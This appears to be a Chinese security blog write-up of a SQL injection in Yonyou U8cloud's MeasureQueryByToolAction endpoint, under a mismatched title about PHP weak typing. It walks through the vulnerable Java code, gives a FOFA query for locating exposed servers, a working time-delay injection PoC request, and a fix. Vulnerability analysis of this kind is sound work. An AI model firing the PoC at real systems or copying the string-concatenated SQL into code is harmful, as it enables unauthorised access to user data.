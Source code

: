 #  PHP漏洞在白盒审计中的技巧（1）——PHP弱类型特性   
 船山信安   2025-05-25 08:14  
  
## 一、漏洞简介  
  
U8cloud系统MeasureQueryByToolAction  
接口存在SQL注入漏洞，攻击者未经授权可以访问数据库中的数据，从而盗取用户数据，造成用户信息泄露。  
## 二、影响版本  
  
1.0,2.0,2.1,2.3,2.5,2.6,2.65,2.7,3.0,3.1,3.2,3.5,3.6,3.6sp,5.0,5.0sp  
## 三、漏洞原理分析  
  
漏洞位于MeasureQueryByToolAction  
接口处，文件路径为nc.ui.iufo.query.measurequery.MeasureQueryByToolAction  
  
![1747105912_6822b8784dc1139ef78b5.png!small?1747105912673](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicM35zozussiasYicp5BodC4W3ibtrKjcFBRsicrnYojrdLicuBbIcjZld5f77WlibicfGgmAbCfxW0JqaiarQ/640?wx_fmt=jpeg&from=appmsg "")  
  
关键代码如下  
```
public ActionForward execute(ActionForm actionForm) throws WebException {  
    ActionForward actionForward = null;  
    try {  
      String[] cks = getRequestParameterValues("query_id");  
      if (cks == null || cks.length == 0)  
        return (ActionForward)new CloseForward("close_refresh_main();");   
      String strMq = cks[0];  
      String strRepId = "";  
      MeasureQueryConVO[] mqCondVOs = MeasureQueryConBO_Client.loadQueryConVOs(new String[] { strMq });  
      if (mqCondVOs == null || mqCondVOs.length == 0)  
        throw new CommonException("miufo1003095");   
      MeasureQueryConVO mqCondVO = mqCondVOs[0];  
      strRepId = mqCondVO.getM_strRepId();  
      if (strRepId == null)  
        strRepId = "";   
      addRequestObject("report_id", strRepId);  
      addRequestObject("measureQueryId", strMq);  
      actionForward = new ActionForward(RepToolAction.class.getName(), "execute");  
    } catch (CommonException e) {  
      throw e;  
    } catch (Exception e) {  
      AppDebug.debug(e);  
    }   
    return actionForward;  
  }

```  
  
先看下用友系统的请求分发，查看Web.xml，可以看见请求/service  
和/servlet  
前缀的都经过NCInvokerServlet处理  
  
![1747105956_6822b8a473b09a51f8408.png!small?1747105956951](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicM35zozussiasYicp5BodC4W365qic0Svcv4cUzWecrR3WjmRcwECdIADmBHETM8ht7SMU5eRzUicBtsQ/640?wx_fmt=jpeg&from=appmsg "")  
  
方法主要功能是获得url路径后，如果是以/~  
开头，截取第一部分为moduleName  
，然后再截取第二部分为serviceName  
，再根据getServiceObject(moduleName, serviceName)  
实现任意Servlet的调用  
  
比如一个请求url为  
```
/service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.query.measurequery.MeasureQueryByToolAction

```  
  
上面请求url中的iufo  
就是模块名称，com.ufida.web.action.ActionServlet  
就是服务名称  
  
而在com.ufida.web.action.ActionServlet  
方法中  
  
![1747106040_6822b8f8bbb969c9e8072.png!small?1747106041313](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicM35zozussiasYicp5BodC4W33NiavXE1FqUvPx3OXWQ486PibCIZzlz2B5GWL3qpdvdiboFMOFjxGXYGg/640?wx_fmt=jpeg&from=appmsg "")  
  
其中主要处理请求的方法为RequestProcessor.getInstance().process(request, response, this);  
  
继续根据process方法中，可见此处接收参数名称action  
和method  
  
![1747106089_6822b92940cc964224b9c.png!small?1747106089528](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicM35zozussiasYicp5BodC4W3GIWsU4Lb7TnFHgVTv2ho2mjUhZvyiaHh2OveTI45b6gxoAjVygPI6PA/640?wx_fmt=jpeg&from=appmsg "")  
  
最后走到processActionExecute  
方法中执行对应的方法名称  
  
![1747106111_6822b93f57e98ccfdf33f.png!small?1747106111730](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicM35zozussiasYicp5BodC4W3J8YIaEQiaaia8ZHBIa7jA7DNcry3ytYlj1wLs4swypibThffgvAYMmnFA/640?wx_fmt=jpeg&from=appmsg "")  
  
这里直接使用action指定了对应的类名nc.ui.iufo.query.measurequery.MeasureQueryByToolAction  
，method指定了对应的方法名称execute  
，便可以直接调用该Action的对应方法  
  
回到MeasureQueryByToolAction  
中，查看调用的execute  
方法格式  
```
public ActionForward execute(ActionForm actionForm) throws WebException {  
    ActionForward actionForward = null;  
    try {  
      String[] cks = getRequestParameterValues("query_id");  
      if (cks == null || cks.length == 0)  
        return (ActionForward)new CloseForward("close_refresh_main();");   
      String strMq = cks[0];  
      String strRepId = "";  
      MeasureQueryConVO[] mqCondVOs = MeasureQueryConBO_Client.loadQueryConVOs(new String[] { strMq });  
      if (mqCondVOs == null || mqCondVOs.length == 0)  
        throw new CommonException("miufo1003095");   
      MeasureQueryConVO mqCondVO = mqCondVOs[0];  
      strRepId = mqCondVO.getM_strRepId();  
      if (strRepId == null)  
        strRepId = "";   
      addRequestObject("report_id", strRepId);  
      addRequestObject("measureQueryId", strMq);  
      actionForward = new ActionForward(RepToolAction.class.getName(), "execute");  
    } catch (CommonException e) {  
      throw e;  
    } catch (Exception e) {  
      AppDebug.debug(e);  
    }   
    return actionForward;  
  }

```  
  
方法中接收传参query_id  
，赋值给数组cks  
，接着取cks  
数组里的第一个参数，赋值给字符串strMq  
，之后调用loadQueryConVOs  
方法传入strMq  
参数  
```
MeasureQueryConVO[] mqCondVOs = MeasureQueryConBO_Client.loadQueryConVOs(new String[] { strMq });

```  
  
追踪loadQueryConVOs  
方法  
  
![1747106398_6822ba5ed70031b75e339.png!small?1747106399072](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicM35zozussiasYicp5BodC4W3p6YzLDy9UDaolCqg1iaoQxD6fBsm2UUoTicibVHAH2BfZo83H9J4iaT81g/640?wx_fmt=jpeg&from=appmsg "")  
  
进入到方法中，找到造成漏洞的关键代码  
  
代码如下，方法中使用拼接的SQL语句：query_con_id in (strMq)  
导致了最终的SQL注入  
```
public MeasureQueryConVO[] loadQueryConVOs(String[] strQueryConIds) throws SQLException {  
    if (strQueryConIds == null || strQueryConIds.length &lt;= 0)  
      return null;   
    Connection con = getConnection();  
    StringBuffer str = new StringBuffer("query_con_id in( ");  
    for (int i = 0; i &lt; strQueryConIds.length; i++) {  
      str = str.append("'");  
      str = str.append(strQueryConIds[i]);  
      str = str.append("',");  
    }   
    String strWhere = str.toString();  
    strWhere = strWhere.substring(0, str.length() - 1) + ")";  
    String sql = "select query_con_id, con_name, con_note, repid, area, content,query_id from iufo_measure_query_con where " + strWhere;

```  
  
此处可以使用')  
来闭合语句，执行任意的恶意SQL语句，造成敏感信息泄露  
## 四、总结  
  
U8cloud系统MeasureQueryByToolAction  
接口的方法中拼接SQL语句造成了SQL注入漏洞，攻击者可以构造任意的query_id  
参数，执行恶意的SQL语句。  
## 五、资产测绘  
  
FOFA语法  
```
app="用友-U8-Cloud"

```  
  
![1747106471_6822baa7a290b86149a5f.png!small?1747106472095](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicM35zozussiasYicp5BodC4W3CxGGibIN9siaK1FdLVNibnOzdibV1QLLmYAnpW8QZOeiaP8CgmERUWHdicTw/640?wx_fmt=jpeg&from=appmsg "")  
## 六、漏洞复现  
  
POC  
```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.query.measurequery.MeasureQueryByToolAction&method=execute&query_id=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close

```  
  
延时注入5秒  
  
![1747106642_6822bb528d9e0d730eafe.png!small?1747106643286](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicM35zozussiasYicp5BodC4W3TFeF4eACTFwfQnKYxsH8kqaSCYTuEwjOhuicIKTtPxUa99IcMk2YfIQ/640?wx_fmt=jpeg&from=appmsg "")  
## 七、修复建议  
  
安装用友U8cloud最新的补丁，或修改对应方法中拼接SQL语句的问题，使用占位符避免用户输入的参数注入到SQL语句当中。  
  
  
作者：【  
chobits02】  
  
